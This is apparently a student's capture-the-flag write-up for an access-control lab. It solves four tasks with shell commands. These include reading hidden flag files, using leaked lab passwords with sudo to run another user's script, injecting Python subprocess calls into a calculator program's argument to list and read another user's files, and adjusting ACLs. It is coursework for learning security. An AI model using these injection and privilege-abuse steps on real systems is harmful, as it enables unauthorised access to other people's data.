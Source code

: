 # Lab 5 Access Control

## Task 1
 
* **_Flag 1_**

... there is a flag in there... yeah right ... literally, a "flag"

```bash
$ cat /etc/secret/flag
# ISC{y1Z33}
```
* **_Flag 2_**

[i have no idea for this one] - not anymore :)
```bash
$ cd /usr/local/isc/.hidden/
$ for i in {100..10000}; do cat ".$i" 2>/dev/null; done
# ISC{14mt3h31337}
```

* **_Flag 3_**

din hacker (numai el are permisiune de read in afara de root)
```shell
# sus
$ readelf -a /usr/local/bin/giff-me-flag | grep FLAG
# 0x000000006ffffffb (FLAGS_1)            Flags: NOW PIE

$ strings /usr/local/bin/giff-me-flag
# apar niste fraze printre care si secventa
# What do you say?
# PLEASE!!!11oneone   ----- yesss this is it!!!!!!!!
# Wrong answer!
# /etc/secret/.hahah/.y0u_c4nt_gu355_th1s
# Okay, here's your flag: %s
# 
```

din decanu sau mihai (orice in afara de hacker ca sa se duca pe other, ca numai ei au permisiune de execute)

```bash
$ giff-me-flag PLEASE!!!11oneone
# Okay, here's your flag: ISC{4lw4ys_s4y_m4g1c_w0rd}
# e flagul ascuns in /etc/secret
```


## Task2

userul *mihai* are parola hunter2

```bash
$ tree /home/
```
La userul *rekt0r* avem un tutorial

    tldr *decanu* poate folosi sudo in locul lui *rekt0r* ca sa execute script ul cu  read...

La *decanu* avem un folder ascuns cu parola [xaX4xaxa4444] -> citibil din mihai ca e in grupul de unstpb

din decanu

```bash
$ sudo -u rekt0r ./read-bank-accounts ../../.not_for_your_eyes
# ISC{1st0pp4bl3_m1h41_r3kt0r}
```

La *t4l3nt* avem un fisier ascuns cu flags - nvm e pt taskul 4



Nu mai am alte idei :(


## Task 3

* dezactivam "testing" mode ca sa rulam comanda de python, nu math.pi 
```bash
$ mv /tmp/.TEST_MODE_ENABLED /tmp/.TEST_MODE_DISABLED
# scriptul verifica daca exista fisierul si suprascrie expresia de python daca exista
```

* incercam sa aflam continutul directorului cu python (si chatGPT :P)
```bash
$ ./sant_calculator "'\n'.join(__import__('subprocess').check_output(['ls', '/home/t4l
3nt/.flags']).decode().splitlines())"
# hehe found it
# izitthis.txt
# no_thiz.txt
# whereisflagz0rx.txt
```

* afisam continutul fisierelor
```bash
$ ./sant_calculator "open('/home/t4l3nt/.flags/izitthis.txt', 'r').read()"
# TZAEAPA
# hmm hmmm ... fine

$ ./sant_calculator "open('/home/t4l3nt/.flags/no_thiz.txt', 'r').read()"
# NOT HERE
# it's not funny anymore

$ ./sant_calculator "open('/home/t4l3nt/.flags/whereisflagz0rx.txt', 'r').read()"
# ISC(su1d_vs_pyth0n_w1nz)
# intr-un final...
```

## Task 4

```bash
$ su student
# parola e student ofc :P
$ strings /usr/local/bin/copy-the-flags
# !/bin/bash
# set -e
# umask 000
# DEST=/home/student/givemeflagz
# su -c 'ls -l /home/student/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 1; }
# ! su -c 'ls -l '$DEST'/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 2; }
# ! su -c 'ls -l '$DEST'/' an0th3r0n3 >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 3; }
# su -c 'bash -c "umask 000; cp -f /home/flagz0wner/lastflag1.txt '$DEST'/"' flagz0wner || { echo 'Copy 1 failed!'; exit 4; }
# echo "First flag successfully copied!"
# DEST=/home/student/givemeflagz/second
# ! su -c 'ls -l '$DEST'/' flagz0wner >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 5; }
# su -c 'bash -c "umask 006; mkdir -p "'$DEST'"; umask 000; cat /home/flagz0wner/lastflag2.txt > '$DEST'/lastflag2.txt"' flagz0wner || { echo 'Copy 2 failed!'; exit 6; }
# echo "Second flag successfully copied!"

$ cd ~
$ mkdir givemeflagz
$ chmod og-rw givemeflagz/
# scoate permisiunile de read pt categoria others ca sa treaca de testul 2 si 3
# cred ca ajunge sa scoti si doar read
$ setfacl  -m  u:flagz0wner:7  givemeflagz/
# acorda permisiuni numai lui flagz0wner 
$ copy-t3h-fl4gz
$ ls -al givemeflagz/
$ cat givemeflagz/lastflag1.txt
# ISC{almost_there_hang_on}
$ cat second/lastflag2.txt
# second este un folder pe care avem numai drept de execute => blind guessed numele dupa formatul primului flag
# hope it works
# anddddd Yesssss it works!!!!!
# ISC{gg_ok_no_more_leet_speak}
```